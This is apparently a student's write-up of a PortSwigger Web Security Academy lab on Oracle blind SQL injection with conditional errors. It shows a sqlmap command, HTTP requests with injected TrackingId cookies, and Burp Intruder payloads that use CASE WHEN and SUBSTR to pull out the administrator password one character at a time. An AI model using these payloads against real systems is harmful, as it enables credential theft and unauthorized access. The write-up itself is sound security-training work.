

# [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## tools

sqlmap: failed:

- sqlmapr:

```http
GET / HTTP/1.1
Cookie: TrackingId=*; 
```

- `sqlmap -r sqlmapr --level=5 --risk=3 --technique E -dbms=oracle -batch`

## manual

1. Detect SQLi:

    ```http
    GET /login HTTP/1.1
    Host: 0afa00310492715fc04e4ad100b30028.web-security-academy.net
    Cookie: TrackingId='; session=ycENcTtu8h6unVYLddxjbGHwamrBBYGy
    ```

    - result: 500
    - => The server will return an error if the query syntax is incorrect

2. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

3. Determine the length of admin password:

    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a64001f0343d514c3733e73004a00e0.web-security-academy.net
        Cookie: TrackingId=R'+UNION+SELECT+CASE+WHEN+username='administrator'+AND+LENGTH(password)%3d§§+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--
        ```

    - payloads: 1-> 30
    - result: 20

4. Find password: use SUBSTR (oracle) and burp's intruder.

    - attack mode: cluster bomb
    - positions:

    ```http
    GET / HTTP/1.1
    Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
    Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+username='administrator'+AND+SUBSTR(password,§§,1)%3d'§§'+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+users--;
    ```

    - payloads:
    - Set 1: 1->20 (password length)
    - Set 2: a->z, A->Z, 1->9
    - filter: response status code 500
    - result:
        

5. Login to admin account => Lab Solved

6. Better Solution:

    ```sql
    xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
    ```
